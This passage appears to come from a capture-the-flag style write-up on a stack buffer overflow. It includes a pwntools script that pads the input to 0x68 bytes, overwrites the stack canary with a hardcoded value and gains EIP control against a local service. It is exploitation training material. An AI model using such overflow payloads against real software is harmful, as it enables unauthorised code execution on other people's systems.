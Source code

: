 ![08](img/08.png)

It is placed 104 (0x68) bytes into the buffer. Modify the pwning script to include the canary value

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("127.0.0.1", 4242)

print conn.recvuntil('users')

conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

pwn = 'A'*0x68
pwn += pack(0xe4ffffe4)
pwn += 'B'*(0xc8-0x68-0x4)
conn.send(pwn)
```

![09](img/09.png)

Yay!! The program no longer complains about the canary value. Furthermore, there is now a segmentation fault with the address of 0x42424242. 0x42424242 is basically 'BBBB' which is part of our input. This means we have EIP control

